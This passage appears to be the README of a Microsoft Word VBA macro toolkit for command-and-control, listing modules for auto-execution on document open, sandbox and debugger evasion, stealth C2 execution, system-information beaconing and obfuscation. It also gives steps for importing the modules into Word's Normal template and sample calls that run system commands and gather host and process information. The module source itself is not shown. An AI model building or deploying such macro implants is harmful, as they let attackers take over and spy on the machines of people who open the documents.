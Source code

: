 ### 5. StartupModule.bas
Document startup and stealth execution:
- Document event handlers (AutoOpen, Document_Open)
- Delayed startup execution (DelayedStartup)
- Environment detection (IsEnvironmentSafe, IsDebuggerPresent, IsSandboxEnvironment)
- Stealth C2 execution (ExecuteStealthC2)
- System information beaconing (SendSystemInfoBeacon)
- Low-level API declarations for advanced functionality

## Installation and Usage

### Importing into Word
1. Open Microsoft Word
2. Press `ALT + F11` to open VBA Editor
3. Right-click on "Normal" project → Import File
4. Select all five `.bas` files from this directory:
   - C2MainModule.bas
   - UtilityFunctions.bas
   - ObfuscationTechniques.bas
   - AutoExecModule.bas
   - StartupModule.bas

### Basic Testing Commands
```vba
' === C2MainModule ===
InitializeC2Connection           ' Initialize C2 connection
EstablishEdgeC2                 ' Establish Edge browser C2
Dim result As String
result = ExecuteCommand("whoami") ' Execute system command
Debug.Print result

' === UtilityFunctions ===
Dim sysInfo As String
sysInfo = GetFullSystemInfo()     ' Get comprehensive system info
Debug.Print sysInfo

Dim processes As String
processes = GetRunningProcesses() ' Get running processes
Debug.Print processes

' === ObfuscationTechniques ===
MainObfuscated                  ' Test obfuscation techniques

Dim obfuscated As String
obfuscated = ObfuscateString("secret data") ' String obfuscation
Debug.Print "Obfuscated: " & obfuscated
Debug.Print "Deobfuscated: " & DeobfuscateString(obfuscated)

' === AutoExecModule === (Auto-executes when document opens)
IsSafeEnvironment()             ' Check environment safety

' === StartupModule === (Auto-executes when document opens)
IsEnvironmentSafe()             ' Environment safety check
```

